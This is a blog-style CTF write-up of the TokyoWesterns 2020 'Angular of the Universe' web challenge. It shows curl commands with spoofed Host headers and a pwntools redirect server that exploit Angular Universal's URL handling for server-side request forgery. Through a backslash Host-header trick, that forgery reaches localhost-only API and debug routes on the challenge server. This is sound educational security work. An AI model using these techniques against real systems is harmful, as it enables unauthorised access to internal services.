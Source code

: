 ```yaml
---
layout: post
title: TokyoWesternsCTF - Web Exploitation
excerpt: "We took part in TokyoWesterns CTF this past weekened and I focused on solving the web exploitation challenges. We were able to solve the first set of angular js challenges and I learned that recaptcha gadgets are very useful. Overall, the CTF definitely deserves its high point value and it was very fun and educational."
categories: [Writeups, TokyoWesternsCTF'20]
tags: [web]
---
```


We took part in TokyoWesterns CTF this past weekened and I focused on solving the web exploitation challenges. We were able to solve the first set of angular js challenges and I learned that recaptcha gadgets are very useful. Overall, the CTF definitely deserves its high point value and it was very fun and educational.

#### Angular of the Universe
```
You know, everything has the angular.
A bread, you, me and even the universe.
Do you know the answer?

http://universe.chal.ctf.westerns.tokyo
```

This challenge gave us a web application written in angular js. It made it very clear what we were supposed to do. In order to get the first flag we had to display the `/debug/answer` route. For the second flag, we had to call the api route `/api/true-answer`. You will see that this writuep will go a little out of order and we will actually tackle getting the second flag first. This is due to the exploit we used.

##### Flag 2

Here is the relevant source code to getting the flag.
```javascript
server.get('/api/true-answer', (req, res) => {
  if (req.ip.match(/127\.0\.0\.1/)) {
    res.json(`hello admin, this is true answer: ${process.env.FLAG2}`)
  } else {
    res.status(500).send('Access restricted!')
  }
});
```
There is just one check that the request must be coming from localhost. After looking at the server and the angular app, there seemed to be no clear routes for SSRF so we decided to look more closely at the angular app.

Looking at the source code and the challenge title it seems like that main premise of the challenge is both angular js and more specifically, the universal rendering engine. The documentation for the universal rendering engine can be found [here](https://angular.io/guide/universal). It is essentially a rendering engine that enables the angular app to be server side rendered. Upon realizing this, two ideas came to mind. The first was getting the angular router to render something it was not supposed to (which we did not completely find and was the solution to another-universe :( ) and the second thought was to get SSRF because likely the app needs to fetch data from an API.

Diving into the source code, we see that when we visit the answer component, a request is actually being made by the server. In `answer.service.ts` there is a function which requests data from an API and displays it.
```javascript
getAnswer() {
  return this.http.get('/api/answer')
}
```
This seems like a perfect candidate for SSRF but no user parameter is taken in, how can we get SSRF?

This is where a minute change in the universal engine comes into play. Specifically, the last section of the documentation describes how URLs should be handled. It mentions passing in the full base URL to the url parameter of the universal engine. Let's take a look at what it is in the application.
```javascript
res.render(indexHtml, {
  req,
  url: '',
  providers: [
    { provide: APP_BASE_HREF, useValue: req.baseUrl },
  ]
});
```
It's quite odd that the URL parameter is passed in as empty. If we just wanted to use aboslute routing, it would probably be OK to not provide the parameter. This prompted us to investigate the universal-angular source code. We found a significant line in the source code [here](https://github.com/angular/universal/blob/v10.1.0/modules/express-engine/src/main.ts#L56-L57). It states the following.
```javascript
renderOptions.url =
	renderOptions.url || `${req.protocol}://${(req.get('host') || '')}${req.originalUrl}`;
```
Knowing that the url parameter is explicity passed in as an empty string which is falsey, this means the url option actually becomes `PROTOCOL + HOST`. This means we can control the base of where all requests are directed to. Fortunately, we also know that when visiting the `/answer` route there is also an HTTP request which is being made. The final challenge was the host header and because we see that Nginx is configured to let our host header through with the line `proxy_set_header Host $host;`, the path to exploitation is clear.

In order to test the exploit, I launched a netcat listener on my server on port 80. I then sent the following request to the challenge server.
```bash
curl -H "Host: jmy.li" http://universe.chal.ctf.westerns.tokyo/a
```
Immediately I saw a connection requesting `/api/answer`. Great so now we are able to get the server to request information from our server but what can we do with this? Because our goal was to pull the information from `/api/true-answer` we responded with a redirect which the angular server understood and happily go the information from to display. In order to implement this I like writing a server with pwntools and sending the redirect request. This could also easily be done via netcat.
```python
from pwn import *
from time import sleep

context.log_level = 'debug'

l = listen(80)
c = l.wait_for_connection()
print('[*] Connection was made to our server')

c.recv()

sleep(0.25)

CLRF = '\r\n'

resp = 'HTTP/1.1 301 Moved Permanently' + CLRF
resp += 'Location: http://127.0.0.1/api/true-answer' + CLRF
resp += CLRF

c.send(resp)
```
With this script running on our server, I then just resend the request to answer with the host set to my server which would redirect the angular server to `/api/true-answer` and finally display the flag. 

##### Flag 1

Now for part 1 of the challenge. We knew that because this was a javascript server, there was likely something we could do with express such as encodings to get the flag but instead we decided to pursue using our SSRF further.

Why can't we just request the route? It's not because of angular but rather because of this configuration in Nginx.
```
location /debug {
  # IP address restriction.
  # TODO: add allowed IP addresses here
  allow 127.0.0.1;
  deny all;
}
```
There is also the following check in the express source code.
```javascript
server.get('*', (req, res) => {
  if (process.env.FLAG && req.path.includes('debug')) {
    return res.status(500).send('debug page is disabled in production env')
  }
```
We did not know of a way to bypass this via nginx so we chose to continue to use our SSRF.

This next behavior is actually unclear to me why it happens but I assume it is because of some the internals of the angular router. (The source was too big for me to want to look at :( ) The bypass was by appending part of our route to the header. For example, setting our host to `/debug` and then visiting `http://universe.chal.ctf.westerns.tokyo/answer`. 

From previous experience, we knew that nginx would filter against `/` but permit `\` in the host header. The exact reasoning you can find in my writeup for viper from redpwnctf. Combining this information, we see that if we set our header to `\debug` and visit `http://universe.chal.ctf.westerns.tokyo/answer` we would get the flag. The final command is the following.
```bash
curl -H "Host: \debug" http://universe.chal.ctf.westerns.tokyo/answer
```

This isn't a traditional SSRF in the sense that we are displaying the result from visiting the route. Instead, what appears to be happening is the universal-engine is using the url parameter it is passed as part of its routing choice and not just redirection. 

Having read Terjanq's writeup [here](https://gist.github.com/terjanq/e2198440c4fdfbdec43e921b600d4a1d#tokyowesterns-ctf-2020--writeups-by-terjanq) it seems the intended solution was to bypass Nginx and Express at the same time using a combination of the `\` trick and encoding.

Overall, this CTF was very educational, fun, and difficult. I learned a lot about angular internals as well as server side rendering. I also mentioned that an approach we looked at was forcing angular to render a different component. This was actually the solution to another-universe and although we weren't able to get the solve during the competition, I recommend reading Terjanq's writeup for more details. 
